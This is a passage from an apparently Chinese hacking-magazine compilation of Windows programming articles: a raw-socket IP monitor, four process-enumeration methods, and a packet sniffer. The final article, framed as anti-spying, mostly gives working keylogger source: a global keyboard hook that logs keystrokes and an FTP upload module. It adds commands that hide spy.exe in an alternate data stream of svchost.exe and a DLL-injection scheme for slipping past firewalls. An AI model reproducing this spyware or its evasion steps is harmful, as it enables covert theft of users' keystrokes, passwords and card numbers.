    GetIpAddrTable((PMIB_IPADDRTABLE)pIpAddrTable, &dwSize, FALSE);
}
```

在 `GetIpAddrTable` 中有一个成员 `dwNumEntries`，它指明了本机到底存在多少宿主（也就是网卡）。通常情况下，如果本机只有一块网卡，则这个参数的值是 2，其中第一个是你为网卡指定的 IP 地址，第二个就是本地回环地址 `127.0.0.1`（这是每台计算机默认具有的本机地址）。如果 `dwNumEntries` 的值大于 2，就说明本机存在两个以上的 IP 地址，这个时候这台计算机就是一台多宿主计算机。如果是一台多宿主计算机，我们便将其每一个 IP 地址保存到一个 `CDwordArray` 类型的变量 `m_IPArr` 中。看一下代码：

```cpp
/* 如果 pIpAddrTable->dwNumEntries > 2，说明本计算机是一个多宿主计算机，将 m_Multihomed 的值赋值为 TRUE */
if (pIpAddrTable->dwNumEntries > 2) {
    m_Multihomed = TRUE;
    char szIP[16];
    for (int i = 0; i < (int)pIpAddrTable->dwNumEntries; i++) {
        in_addr ina;
        ina.S_un.S_addr = pIpAddrTable->table[i].dwAddr;
        char *pIP = inet_ntoa(ina);
        strcpy(szIP, pIP);
        // 将本机除 "127.0.0.1" 以外的地址，全部保存到数组 m_IPArr 中去
        if (strcmp(szIP, "127.0.0.1"))
            m_IPArr.Add(pIpAddrTable->table[i].dwAddr);
    }
    delete[] pIpAddrTable;
}
```

接着，我们来看按下开始监控按钮时的响应函数。首先，我们要依次将计算机的标准宿主名取到变量 `szHostName` 中，然后通过控件取得要监控的源 IP，赋值给 `m_ipsource` 变量，将要监控的目标 IP 取到 `m_ipcheckedhost` 变量中。代码如下：

```cpp
void CIpmonDlg::OnStart()
{
    // 变量声明，可以看源程序，此处省略
    m_Local = m_check.GetCheck();
    // 返回本地计算机的标准宿主名
    gethostname(szHostName, sizeof(szHostName));
}
```

```cpp
/* 将本机 IP 和目标 IP 地址取出，并转换 u_long 类型的 TCP/IP 网络地址为主机字节顺序的地址 */
iRet = m_ipctrl.GetAddress(m_ipsource);
m_iphostsource = ntohl(m_ipsource);
iRet = m_ipctrlhost.GetAddress(m_iphost);
m_ipcheckedhost = ntohl(m_iphost);
...... // 后续代码省略
}
```

这个程序中，我们使用 `m_threadID` 的值来控制程序的运行，为 0 时代表开始监控，否则为停止监控，其处理过程如下所示：

```cpp
void CIpmonDlg::OnStart()
{
    ......

    // 检查是否是本机 IP
    if (IsThisHostIP())
    {
        CString str;
        // m_threadID 的值来控制程序的运行，为 0 时代表开始监控，否则为停止监控
        if (0 == m_threadID)
        {
            str.LoadString(IDS_STOP);
            m_start.SetWindowText(str);
        }
        else
        {
            if (m_threadID)
            {
                PostThreadMessage(m_threadID, WM_CLOSE, 0, 0);
                str.LoadString(IDS_START);
                m_start.SetWindowText(str);
                m_start.EnableWindow(FALSE);
            }
            return;
        }
    }
    ......
}
```

接下来的工作就是要创建一个原始套接字 `m_s`（这里要使用 `SOCK_RAW`，而不是通常使用的 `SOCK_STREAM`），并且要使用 `setsockopt` 函数对 `m_s` 的某些选项进行相应的设置。这里，我们只是改变了数据包超时时间，实现过程如下：

```cpp
DWORD dwBufferLen[10];
DWORD dwBufferInLen = 1;
DWORD dwBytesReturned = 0;
/* 使用 WinSock 来创建一个原始套接字，注意这里要使用 SOCK_RAW，而不是通常使用的 SOCK_STREAM */
m_s = socket(AF_INET, SOCK_RAW, IPPROTO_IP);
if (INVALID_SOCKET == m_s)
{
    <错误处理代码>
    closesocket(m_s);
    return;
}
// 将默认的 45 秒的超时改成 5 秒
```

```cpp
int rcvtimeo = 5000;
/* 这里，在使用原始套接字时是必须要调用的函数 setsockopt，从而重新设置 sock 的选项 */
if (setsockopt(m_s, SOL_SOCKET, SO_RCVTIMEO, (const char *)&rcvtimeo, sizeof(rcvtimeo)) == SOCKET_ERROR)
{
    <错误处理代码>
    closesocket(m_s);
    return;
}
```

对原始套接字进行正确的设置之后，下面的代码和普通的使用 TCP 或 UDP 编程的步骤基本上没有什么不同。下面首先要对声明的 `SOCKADDR_IN` 类型的变量 `sa` 进行赋值，然后将上面设置的原始套接字与 `sa` 绑定。随后，对 socket 的工作模式进行控制，这里使用 `SIO_RCVALL` 监控所有的数据包，如果设置成功，则直接启动监控线程。代码如下所示：

```cpp
sa.sin_family = AF_INET;                  // 指定地址家族
sa.sin_port = htons(7000);                // 指定使用的端口号
sa.sin_addr.s_addr = m_iphostsource;      // 指定绑定的 IP 地址

// 进行绑定
if (bind(m_s, (PSOCKADDR)&sa, sizeof(sa)) == SOCKET_ERROR)
{
    <错误处理代码>
    closesocket(m_s);
    return;
}

/* 对 socket 的工作模式进行控制，这里使用 SIO_RCVALL 监控所有的数据包，如果设置成功，则直接启动监控线程 */
if (WSAIoctl(m_s, SIO_RCVALL, &dwBufferInLen, sizeof(dwBufferInLen), &dwBufferLen, sizeof(dwBufferLen), &dwBytesReturned, NULL, NULL) != SOCKET_ERROR)
    AfxBeginThread(threadFunc, (LPVOID)this);
else
{
    <错误处理代码>
    closesocket(m_s);
    return;
}
```

最后，我们来看一下线程函数是怎么处理的。这里，我将线程函数 `threadFunc` 作为全局函数处理。首先，要将传入线程函数的变量 `p` 静态转换为 `CIpmonDlg` 类型，并赋值给 `pDlg`。然后，在消息队列中使用 `PeekMessage` 函数检查 `WM_USER` 消息，如果消息存在，则不从消息队列中将它移除，函数结束软阻塞状态。同时，将线程的 ID 号取出，赋值给 `m_threadID`。如下所示：

```cpp
UINT threadFunc(LPVOID p)
{
    // 将 p 静态转化为 CIpmonDlg 类型；并赋值给 pDlg
    CIpmonDlg *pDlg = static_cast<CIpmonDlg *>(p);
    ...... // 变量声明，暂将源程序地址省略
    PeekMessage(&msg, NULL, WM_USER, WM_USER, PM_NOREMOVE);

    pDlg->m_threadID = GetCurrentThreadId();
    pDlg->m_list.ResetContent();
    ......
}
```

在接下来代码中，要使用一个 `while(TRUE)` 的循环，循环处理消息，并不停地抓包进行处理。如果一旦用 `PeekMessage` 函数检查到用户发出的 `WM_CLOSE` 消息，则关闭原始套接字，结束线程，代码如下：

```cpp
while (TRUE)
{
    if (PeekMessage(&msg, 0, WM_CLOSE, WM_CLOSE, PM_NOREMOVE))
    {
        closesocket(pDlg->m_s);
        pDlg->m_threadID = 0;
        // Only after you see Next message you can press on Start button
        pDlg->m_start.EnableWindow(TRUE);
        break;
    }
    ......
}
```

接下来，就要在绑定的原始套接字上接收消息，将消息放入 `buf` 缓冲区中，并将取得的原始套接字的信息的 IP 头按照定义的结构取出来，并将填充在 IP 头中的消息长度取出来，赋值给 `iLen` 变量，代码如下：

```cpp
memset(buf, 0, sizeof(buf));
// 从已经绑定的套接字上接收消息
if ((iRet = recv(pDlg->m_s, buf, sizeof(buf), 0)) == SOCKET_ERROR)
{
    <错误处理代码>
    continue;
}
else if (*buf)
{
    bufwork = buf;
    // 将取得的原始套接字的信息的 IP 头，按照定义的结构取出来。
    pIpHeader = (IPHEADER *)bufwork;
    WORD iLen = ntohs(pIpHeader->total_len);
    ......
}
```

接下来的 `while` 循环比较重要。首先判断 `pIpHeader` 是不是符合 IP 头的结构定义，如果符合，就会将数据包的源 IP 和目标 IP 以及对监控的数据包的感兴趣信息进行格式化，存入 `str` 中，以待输出。通常情况下，IP 头中取得的数据的长度总是和执行 `recv()` 函数取得的返回长度一致，所以实际上对于每一个数据包都只是将它的 IP 包头取出处理一下，就接着去处理下一个数据包了。这里为了程序的完整性，我还是将 `iLen < iRet` 的情况写了进来。有兴趣的读者可以参看源程序。

```cpp
while (TRUE)
{
    if (iLen <= iRet)
    {
        // 判断是否是 IP 头
        if (pDlg->IsIpOfHost(pIpHeader))
        {
            // Form the line for m_list
            ina.S_un.S_addr = pIpHeader->sourceIP;
            pSource = inet_ntoa(ina);
            strcpy(szSource, pSource);

            ina.S_un.S_addr = pIpHeader->destIP;
            pDest = inet_ntoa(ina);
            strcpy(szDest, pDest);
            CString str;

            // 对监控的数据包的感兴趣信息进行格式化，存入 str 中，以待输出
            if (pIpHeader->sourceIP == (pDlg->m_ipcheckedhost ? pDlg->m_ipcheckedhost : pDlg->m_iphostsource))
                str.Format("%s > %s len = %d ttl=%d proto=%s", szSource, szDest, iLen, pIpHeader->ttl, get_proto_name(pIpHeader->proto));
            else
                str.Format("%s < %s len = %d ttl=%d proto=%s", szDest, szSource, iLen, pIpHeader->ttl, get_proto_name(pIpHeader->proto));

            pDlg->m_list.AddString(str);
            Sleep(50);
        }

        /* 正常情况下，iLen<iRet 的判断不会成立，所以就直接执行 else，进而 break 出循环了 */
        if (iLen < iRet)
        {
            iRet -= iLen;
            bufwork += iLen;
            pIpHeader = (IPHEADER *)bufwork;
        }
        else
            break; // pIpHeader->total_len == iRet and go out
    }
    else
    {
        /* recv() 函数能够返回数据包确切的长度，下面这一部分代码在通常的编程中完全可以不用写，这里为了程序的完整性，我还是写了进来。 */
    }
} // end of while
```

本文首先从总体上把握解释了这个程序的大致工作流程以及关键地方的细节，如果大家有什么问题，可参照本文的代码进行详细分析。

### 四种方法实现 VC 枚举系统当前进程

文／图 Scukr／编程浪子

在 Windows 2000 以上的 MS 操作系统中，通过 Windows 的任务管理器可以列出当前系统的所有活动进程（如图 1 所示）。在 Windows XP 中，在控制台下增加了一条 Tasklist 命令，可让系统下所有进程都无所遁形（如图 2 所示）。这一切是怎么实现的呢？

XP SP1 + VC6.0 SP6 编译环境下通过。OK, Let's go!

#### 方法一

第 1 种方法是大家比较熟悉的通过 ToolHelp Service 提供的 API 函数来实现的。这里用到了 3 个关键的函数 CreateToolhelp32Snapshot()、Process32First() 和 Process32Next()。下面给出关于这 3 个函数的原型和参数说明：

```c
HANDLE WINAPI CreateToolhelp32Snapshot(
    DWORD dwFlags,
    DWORD th32ProcessID
);

BOOL WINAPI Process32First(
    HANDLE hSnapshot,
    LPPROCESSENTRY32 lppe
);

BOOL WINAPI Process32Next(
    HANDLE hSnapshot,
    LPPROCESSENTRY32 lppe
);
```

首先使用 CreateToolhelp32Snapshot() 创建系统快照句柄（hProcess 是我们声明用来保存创建的快照句柄）：

```c
hProcess = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
```

然后调用 Process32First() 获得系统快照中的第一个进程信息（report 是 BOOL 型，作为判断系统快照中下一条进程记录）：

```c
report = Process32First(hProcess, pinfo);
```

接着用一个循环调用来遍历系统中所有运行的进程：

```c
while (report)
{
    hModule = CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, pinfo->th32ProcessID);
    Module32First(hModule, minfo);
    GetShortPathName(minfo->szExePath, shortpath, 256);
    printf("%s ---- %s\n", pinfo->szExeFile, shortpath);
    report = Process32Next(hProcess, pinfo);
}
```

图 1

图 2

引用侯捷大师在《深入浅出 MFC》中的一句话，“知其然而不知其所以然，真不是个好办法”。既然如此，我们干脆自己动手，自己通过编程来实现吧，这样很有成就感哦！以下所有代码均在 Windows ...

笔者曾通过对 Pstools 工具包里的 Pslist.exe 反编译，发现该工具用的就是这种方法。如果你查询 MSDN，可以找到一个比这个功能更加完善的源程序。

#### 方法二

第 2 种方法也很常见，通过 MSDN 就可以找到例子代码，它是通过 **Psapi.dll** 提供的 API 函数 `EnumProcesses` 和 `EnumProcessModules` 来实现。有一点要说明的是：Visual Studio 提供的 SDK 包里没有提供相应的 Psapi.h 和与之对应的导入库。后来发现编译时报“找不到 psapi.h”。MSDN 至少告诉我们它们都包含在 Psapi.dll 里，用 VC 自带的 Depend 工具一查，果然。这样就好办了，我们可以自己找到这些函数入口地址。

> C 也好 C++ 也好，一般的函数名本质上都是一个地址。在 Win32 的 API 里，它是指向函数所在 DLL 模块里函数实现的入口地址。

下面是第二种方法的实现过程。首先把 Psapi.dll 里要用到函数都定义好，以方便后面显示调用。

```c
// 在 Psapi.dll 中的函数 EnumProcesses 用来枚举进程
typedef BOOL (__stdcall *ENUMPROCESSES)(
    DWORD* pProcessIds,
    DWORD cb,
    DWORD* pBytesReturned);

// 在 Psapi.dll 中的函数 EnumProcessModules 用来枚举进程模块
typedef BOOL (__stdcall *ENUMPROCESSMODULES)(
    HANDLE hProcess,
    HMODULE* lphModule,
    DWORD cb,
    LPDWORD lpcbNeeded);

// 在 Psapi.dll 中的函数 GetModuleFileNameEx 获取进程模块名
typedef DWORD (__stdcall *GETMODULEFILENAMEEX)(
    HANDLE hProcess,
    HMODULE hModule,
    LPTSTR lpFilename,
    DWORD nSize);
```

好，通过每个定义函数前的注释你可以清楚地看到这些原函数名，然后自然要加载包含这些函数模块 `Psapi.dll`：

```c
hPsDll = LoadLibrary("PSAPI.DLL");
```

接着通过 DLL 入口，我们查找每个函数地址：

```c
pEnumProcesses = (ENUMPROCESSES)GetProcAddress(hPsDll, "EnumProcesses");
pEnumProcessModules = (ENUMPROCESSMODULES)GetProcAddress(hPsDll, "EnumProcessModules");
pGetModuleFileNameEx = (GETMODULEFILENAMEEX)GetProcAddress(hPsDll, "GetModuleFileNameExA");
```

注意第 3 个函数名 `GetModuleFileNameExA`，在 DLL 里有以 A 和 W 结尾区分函数。A 指采用 ANSI 字符串方式，W 则是 Unicode 方式。于是，我们可以用下面的语句枚举进程：

```c
pEnumProcesses(processid, sizeof(processid), &needed);
processcount = needed / sizeof(DWORD);

for (i = 0; i < processcount; i++) {
    hProcess = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, false, processid[i]);
    if (hProcess) {
        pEnumProcessModules(hProcess, &hModule, sizeof(hModule), &needed);
        pGetModuleFileNameEx(hProcess, hModule, path, sizeof(path));
        GetShortPathName(path, path, 256);
        itoa(processid[i], temp, 10);
        printf("%s ---- %s\n", path, temp);
    } else {
        printf("Failed!!\n");
    }
}
```

当然，在 Google 上搜索，可以找到不少提供的 Psapi.h 头文件和对应的 Psapi.lib 库。这样，你就可以更方便使用这种方法了。

#### 方法三

也许你会说前两种方法全世界都知道了，没什么大不了的！呵呵，那么笔者现在介绍的第 3 种方法你就未必知道了。本方法利用了 Windows NT/2000 下终端服务 API 函数 `WTSOpenServer()` 和 `WTSEnumerateProcess()` 来实现，这两个函数都定义……

在 Wtsapi32.dll 里，具体的关于终端服务方面的知识，大家可以查询 MSDN。

首先，我们来显示声明这两个函数原型：

```c
typedef HANDLE (__stdcall *WTSOPENSERVER)(
    LPTSTR pServerName // NetBios 指定的终端服务名
    ...
);

typedef BOOL (__stdcall *WTSENUMERATEPROCESSES)(
    HANDLE hServer,
    DWORD Reserved,
    DWORD Version,
    PWTS_PROCESS_INFO* ppProcessInfo,
    DWORD* pCount
);
```

图 3

和前面一样，要先装载 Wtsapi32.dll 模块，获取关键函数地址：

```c
hWtsApi32 = LoadLibrary("wtsapi32.dll");
pWtsOpenServer = (WTSOPENSERVER)GetProcAddress(hWtsApi32, "WTSOpenServerA");
pWtsEnumerateProcesses = (WTSENUMERATEPROCESSES)GetProcAddress(hWtsApi32, "WTSEnumerateProcessesA");
```

通过 argv[1] 给终端服务名（这里我们赋本机 NetBios 名）赋一个值并打开这项服务：

```c
char* szServerName = argv[1];
hWtsServer = pWtsOpenServer(szServerName);
```

然后开始遍历终端服务器上的所有进程，这里我们是指本机的所有进程：

```c
if (!pWtsEnumerateProcesses(hWtsServer,
    0,
    1,
    ...)) {
    printf("enum processes error: %d\n", GetLastError());
    return;
}

for (int i = 0; i < dwCount; i++) {
    printf("ps_Id: %d\t\tps_name: %s\n", pWtspi[i].ProcessId, pWtspi[i].pProcessName);
}
```

怎么样，酷吧，跟前面两种方法效果一样！

#### 方法四

最后笔者介绍一种最少有人用的方法，本方法是从“幻影旅团”论坛上看到的。后面给出的源代码也是从他们那拷贝过来的。呵呵，这种方法也提供给我们一种很好的思路。

第 4 种方法利用了 Native API 的 NtQuerySystemInformation 函数来实现。同样没有该函数的导入库，也要自己定义原型。整个实现不难，可是有点烦，因为在该函数参数结构上，笔者查 MSDN 很久才找到这些相关的结构，下面我们来看看这个方法的实现吧。

先是自定义函数原型：

```c
typedef NTSTATUS (__stdcall *PZWQUERYSYSTEMINFORMATION)
(
    IN SYSTEM_INFORMATION_CLASS SystemInformationClass,
    IN OUT PVOID SystemInformation,
    IN ULONG SystemInformationLength,
    OUT PULONG ReturnLength
);
```

然后，还是和前面一样，要找到 ZwQuerySystemInformation 在 Ntdll.dll 模块里的入口地址：

```c
hModule = GetModuleHandle((LPCTSTR)"ntdll.dll");
pZwQuerySystemInformation = (PZWQUERYSYSTEMINFORMATION)
    GetProcAddress(hModule, (LPCTSTR)"ZwQuerySystemInformation");
```

获得指向进程信息数组链的第一条进程信息：

```c
pSystemProcessInformation =
    (SYSTEM_PROCESS_INFORMATION*)pvProcessList;
```

和方法一、方法二一样，在获得第一条进程信息后开始循环遍历，列出其余的进程：

```c
while (TRUE)
{
    if (pSystemProcessInformation->NextEntryDelta == 0) // 如果是最后一条，则终止循环。
        break;

    pSystemProcessInformation = (SYSTEM_PROCESS_INFORMATION*)((PCHAR)pSystemProcessInformation +
        pSystemProcessInformation->NextEntryDelta);

    pProcessName = (char *)malloc(
        pSystemProcessInformation->ProcessName.Length + 2);
}
```

```c
typedef struct _UNICODE_STRING {
    USHORT Length;
    USHORT MaximumLength;
    PWSTR  Buffer;   // 这里为 Unicode 类型
} UNICODE_STRING, *PUNICODE_STRING;
```

特别注意的是，这里 SYSTEM_PROCESS_INFORMATION 结构里进程名的类型为 UNICODE_STRING，而 UNICODE_STRING 里的成员 Buffer 定义的是 Unicode 类型。

所以，最后我们要调用 WideCharToMultiByte() 来还原成 ANSI 字符串以便输出：

```c
WideCharToMultiByte(CP_ACP,
    0,
    pSystemProcessInformation->ProcessName.Buffer,
    pSystemProcessInformation->ProcessName.Length + 1,
    pProcessName,
    pSystemProcessInformation->ProcessName.Length + 1,
    NULL,
    NULL);
```

```c
typedef struct _SYSTEM_PROCESS_INFORMATION
{
    DWORD dNextEntryDelta;
    DWORD dThreadCount;
    DWORD dReserved01;
    DWORD dReserved02;
    DWORD dReserved03;
    DWORD dReserved04;
    DWORD dReserved05;
    DWORD dReserved06;
    FILETIME ftCreateTime;   /* relative to 01-01-1601 */
    FILETIME ftUserTime;     /* 100 nsec units */
    FILETIME ftKernelTime;   /* 100 nsec units */
    UNICODE_STRING ProcessName; // 进程名
    DWORD BasePriority;
    DWORD dUniqueProcessId;  // 进程 ID
    DWORD dParentProcessID;
    DWORD dHandleCount;
    DWORD dReserved07;
    DWORD dReserved08;
    DWORD VmCounters;
    DWORD dCommitCharge;
    PVOID ThreadInfos[1];
} SYSTEM_PROCESS_INFORMATION;
```

具体参数大家可以参照 MSDN，很简单的。以上 4 种方法的完整源代码见光盘。

从这里可看出，查看系统当前活动进程的实现也不过如此。况且，笔者还没有给出第 5 种方法（可以通过 WMI 的 COM 接口函数 CoCreateInstance()、ConnectServer()、ExecQuery() 等函数来实现，留给读者自己练习），呵呵，好玩吧？居然有那么多种方法。

写这篇文章的目的是想告诉大家，有时候通过自己动手，会发现以前认为很高深的东西原来也很简单的，只要善于总结，常动手，我们自己也可以打造一些方便好用的小工具来，你说呢？！

> [本文涉及的代码（程序），请见随书光盘 1 册]

### 编写无敌劲帅 Sniffer

文／图 SworD[S.E.S.T]

玩网络安全的人一定不会对嗅探器（Sniffer）感到陌生，Sniffer 在网络安全方面扮演了很重要的角色，它是一种被动型攻击工具。如何编写 Sniffer 将是本文的主题。

嗅探器是通过对网卡的编程来实现网络通讯的，对网卡的编程也是使用通常的套接字（socket）方式来进行。用 Raw Socket 实现 Sniffer 的方法比较简单，编程实现如下。

创建一个原始套接字 Raw Socket：

```c
WSADATA wsa; // WSAData 为 WSADATA 结构对象
WSAStartup(0x0202, &wsa); // 导入 socket2.0 库，检查 Winsock 版本号

int sock = socket(AF_INET, SOCK_RAW, IPPROTO_RAW); // 创建一个原始套接字 Raw Socket
```

## 把网卡置于混杂模式

```cpp
setsockopt(sock, IPPROTO_IP, IP_HDRINCL, (char*)&flag, sizeof(flag));
WSAIoctl(sock, SIO_RCVALL, &dwBufferInLen, sizeof(dwBufferInLen), &dwBufferLen, sizeof(dwBufferLen), &dwBytesReturned, NULL, NULL);
```

将此 Socket 与本机的某个网络接口绑定，首先要获得本机 IP，先看几个结构的定义。

```cpp
struct hostent {
  char *h_name;
  char **h_aliases;
  int h_addrtype;
  int h_length;
  char **h_addr_list;
};

char szhostname[128];
gethostname(szhostname, sizeof(szhostname));
phost = gethostbyname(szhostname);
if (phost == NULL) {
  printf("\nGethostbyname() error!");
  exit(-1);
}
```

再看 `sockaddr_in` 和 `in_addr` 结构定义：

```cpp
struct sockaddr {
  unsigned short sa_family;
  char sa_data[14];
};

struct sockaddr_in {
  short int sin_family;
  unsigned short int sin_port;
  struct in_addr sin_addr;
  unsigned char sin_zero[8];
};

struct in_addr {
  union {
    struct { u_char s_b1, s_b2, s_b3, s_b4; } S_un_b;
    struct { u_short s_w1, s_w2; } S_un_w;
    u_long S_addr;
  } S_un;
};
```

另外注意：网络字节顺序与本地字节顺序之间的转换按如下规则：

> h to n：host to network  
> n to h：network to host  
> s：short  
> l：long

> **小提示**：`inet_addr()` 将点分十进制 IP（如 `192.168.0.25`）转换为 32 位 IPv4 网络地址；`inet_ntoa()` 将 32 位 IPv4 地址转换为点分十进制字符串（`char* inet_ntoa(struct in_addr in)`）。

如何绑定呢？看下面分析：

```cpp
struct sockaddr_in sin;
sin.sin_family = AF_INET;
sin.sin_port = htons(0);
bzero(&(sin.sin_zero), 8);
memcpy(&sin.sin_addr, phost->h_addr_list[0], phost->h_length);
ret = bind(sock, (struct sockaddr*)&sin, sizeof(sin));
```

#### 接收 IP 数据包

```cpp
while (1) {
  memset(recvbuf, 0, sizeof(recvbuf));
  ret = recv(sock, recvbuf, sizeof(recvbuf), 0);
  DecodePackets(recvbuf);
}
```

#### 分析数据包

```cpp
void DecodePackets(char *recvbuf) {
  IP_HEADER *ipHeader;
  TCP_HEADER *tcpHeader;
  in_addr inAddr;

  ipHeader = (IP_HEADER*)recvbuf;
  tcpHeader = (TCP_HEADER*)(recvbuf + sizeof(IP_HEADER));

  printf("协议类型:\t%d\n", ipHeader->proto);
  inAddr.s_addr = ipHeader->sourceIP;
  printf("来源地址:\t%s\n", inet_ntoa(inAddr));
  inAddr.s_addr = ipHeader->destIP;
  printf("目的地址:\t%s\n", inet_ntoa(inAddr));
  printf("来源端口:\t%d\n", ntohs(tcpHeader->th_sport));
  printf("目的端口:\t%d\n\n", ntohs(tcpHeader->th_dport));
}
```

一个简单的 Sniffer 就这样写成了，你可以把上面的代码连接一下，编译就 OK 了，是不是用自己写的程序很有成就感呢！

### 键盘监视器原理及反窥探技术


文/图 叶子

本文将详细讨论一个键盘监视器的 C++/C# 开发过程，并针对反窥探提出一些建议，希望读者理解基于钩子技术的窥探软件的工作原理，以便更好地对自己的软件加以保护。

基于软件的键盘事件记录器是一个严重的安全威胁，因为它们通过捕获击键操作来监控用户的行动。监控器可以用于一些恶意的行为，诸如盗窃信用卡号码等。击键记录器是 Trojans 病毒的一个基本组成部分，它们在后台安静地运行，伺机捕获用户的击键操作。击键事件被保存在经过良好隐藏的文件中，通过电子邮件或者 FTP 方式发送给窥探者。下面是一个简单的、直接使用钩子技术实现的例子。

#### 键盘监视器体系结构

键盘监视器由 3 个模块组成：主模块、钩子过程和 FTP 模块。主模块负责安装一个全局钩子过程。该钩子的任务是把每次按键事件向主模块汇报，由主模块把所有的击键保存到一个文件中。当记录文件达到预定的大小时，主模块命令 FTP 模块把记录文件上传给一个 FTP 服务器。3 个模块间的通信是通过 Windows 消息机制实现的，如图 1 所示。


图 1

#### 主模块代码

```cpp
// FUNCTION: WndProc(HWND, unsigned, WORD, LONG)
// 目的：处理主窗口中的消息
// MSG_MY_WM_KEYDOWN - 处理应用程序按键
// MSG_MY_WM_SETFOCUS - 处理应用程序焦点
// MSG_WM_UPLOAD_FILE - 处理一个FTP模块通知
// WM_DESTROY - 寄送一个退出消息并返回
LRESULT CALLBACK WndProc(HWND hWnd, UINT message, WPARAM wParam, LPARAM lParam)
{
    if (message == MSG_MY_WM_KEYDOWN)
        return OnInterceptKeyStroke(wParam, lParam);
    if (message == MSG_MY_WM_SETFOCUS)
        return OnSetKeyboardFocus(wParam, lParam);
    if (message == MSG_WM_UPLOAD_FILE)
        return OnFileUploaded(wParam, lParam);

    switch (message)
    {
    case WM_DESTROY:
        PostQuitMessage(0);
        break;
    default:
        return DefWindowProc(hWnd, message, wParam, lParam);
    }
    return 0;
}

LRESULT OnInterceptKeyStroke(WPARAM wParam, LPARAM lParam)
{
    // 如果我们在登录一个新的应用程序，应该打印一个适当的头
    if (g_hWinInFocus != g_hLastWin)
    {
        WriteNewAppHeader(g_hWinInFocus);
        g_hLastWin = g_hWinInFocus;
    }

    if (wParam == VK_RETURN || wParam == VK_TAB)
    {
        WriteToLog("\n");
    }
    else
    {
        BYTE keyStateArr[256];
        WORD word;
        UINT scanCode = lParam;
        char ch;

        // 把虚拟键代码转换成 ASCII 码
        GetKeyboardState(keyStateArr);
        ToAscii(wParam, scanCode, keyStateArr, &word, 0);
        ch = (char)word;

        if ((GetKeyState(VK_SHIFT) & 0x8000) && wParam >= 'a' && wParam <= 'z') {
            ch += 'A' - 'a';
        }
        WriteToLog(ch);
    }

    return 0;
}

LRESULT OnSetKeyboardFocus(WPARAM wParam, LPARAM lParam)
{
    g_hWinInFocus = (HWND)wParam;
    return S_OK;
}

LRESULT OnFileUploaded(WPARAM wParam, LPARAM lParam)
{
    // 记录上载成功
    if (wParam) {
        DeleteFile(g_sSpyLogFileName2);
    } else {
        char temp[255];
        FILE* f1 = fopen(g_sSpyLogFileName, "rt");
        FILE* f2 = fopen(g_sSpyLogFileName2, "at");
        while (!feof(f1)) {
            if (fgets(temp, 255, f1)) {
                fputs(temp, f2);
            }
        }
        fclose(f1);
        fclose(f2);
        MoveFile(g_sSpyLogFileName2, g_sSpyLogFileName);
    }
    g_isUploading = false;
    return S_OK;
}
```

系统消息队列被清除之前调用。所有桌面应用程序都在自己的上下文中调用一个全局的钩子过程，所以该钩子过程必须驻留在一个独立于应用程序的 DLL 中来安装钩子过程。

一段 DLL 共享内存区域实际上是一个所有的 DLL 实例都可以看到的内存变量。主模块把它的窗口句柄保存在钩子 DLL 的共享内存区域中，该 DLL 使所有的钩子过程实例能够把窗口消息投递回主模块。钩子过程共享内存区域并输出函数：

```cpp
// 共享的内容
#pragma data_seg(".adshared")
HWND g_hSpyWin = NULL;
#pragma data_seg()
#pragma comment(linker, "/SECTION:.adshared,RWS")

void CALLBACK SetSpyHwnd(DWORD hwnd)
{
    g_hSpyWin = (HWND)hwnd;
}

LRESULT CALLBACK HookProc(int nCode, WPARAM wParam, LPARAM lParam)
{
    if ((nCode == HCBT_KEYSKIPPED) && (lParam & 0x40000000)) {
        if ((wParam == VK_SPACE) || (wParam == VK_RETURN) || (wParam == VK_TAB) || ((wParam >= 0x2f) && (wParam <= 0x100))) {
            ::PostMessage(g_hSpyWin, MSG_MY_WM_KEYDOWN, wParam, lParam);
        }
    } else if (nCode == HCBT_SETFOCUS) {
        ::PostMessage(g_hSpyWin, MSG_MY_WM_SETFOCUS, wParam, lParam);

        if (bInjectFtpDll && ::FindWindow(COMM_WIN_CLASS, NULL) == NULL) {
            HINSTANCE hFtpDll;
            Init InitFunc;
            if (hFtpDll = ::LoadLibrary(FTP_DLL_NAME)) {
                if (InitFunc = (Init)::GetProcAddress(hFtpDll, "Init")) {
                    (InitFunc)((DWORD)g_hSpyWin);
                }
            }
            bInjectFtpDll = false;
        }
    }
    return CallNextHookEx(0, nCode, wParam, lParam);
}
```

一个系统范围的钩子实际上是一个函数，它安装在当前运行的所有进程中，在被监视消息到达目标 window 过程之前予以监控。钩子过程用于监控系统中的各种类型的事件，例如击键，等等。可以通过调用 Win32 API 函数 SetWindowsHookEx 来安装一个钩子过程，并指定调用该过程的钩子类型。一个 WH_CBT 钩子过程在窗口取得焦点并在击键事件从……

函数的主模块代码如下：

```cpp
typedef LRESULT (CALLBACK *HookProc)(int nCode,
WPARAM wParam,
LPARAM lParam);
typedef void (WINAPI *SetSpyHwnd)(DWORD);
HMODULE g_hHookDll = NULL;
HHOOK g_hHook = NULL;
bool InstallHook(HWND hwnd)
{
    SetSpyHwnd SetHwndFunc;
    HookProc HookProcFunc;

    if (g_hHookDll = LoadLibrary(SPY_DLL_NAME))
    {
        if (SetHwndFunc = (SetSpyHwnd)::GetProcAddress(g_hHookDll, "SetSpyHwnd"))
        {
            // 把主模块的HWND存储在共享存储区域
            (SetHwndFunc)((DWORD)hwnd);
            if (HookProcFunc = (HookProc)::GetProcAddress(g_hHookDll, "HookProc"))
            {
                if (g_hHook = SetWindowsHookEx(WH_CBT, HookProcFunc, g_hHookDll, 0))
                    return true;
            }
        }
    }
    return false;
}
```

```txt
Inject spy.exe to svchost.exe
"type spy.exe > c:\windows\system32\svchost.exe:spy.exe"
Run spy.exe
"start svchost.exe:spy.exe"
```

#### 防火墙盗窃

大多数的防火墙软件都能探测和阻拦不经授权的程序接入因特网。主模块通过使用 FTP 模块把记录文件上传到一个 FTP 服务器。防火墙通过把 FTP 模块 DLL 注入到另外一个已经安装的应用程序中来实现绕过。DLL 注入意味着强制一个不能被挂起的进程必须接受一个自己从来没有要求的 DLL 文件。示例中，我选择把 FTP 模块注入到 Internet Explorer 或者 FireFox。DLL 注入将会越过大多数防火墙软件的检测，特别在 FTP 服务器在监听 80 端口时。钩子过程 DLL（它由函数 SetWindowsHookEx 自动加载进入所有正运行进程）检查是被装入到 Internet Explorer 还是 FireFox，并加载（用 LoadLibrary）FTP 模块 DLL。从 DllMain 中调用 LoadLibrary 函数是不允许的，因此 DllMain 设置了一个布尔变量来让钩子过程调用 LoadLibrary 函数。下面是模块 DllMain 中的钩子过程。

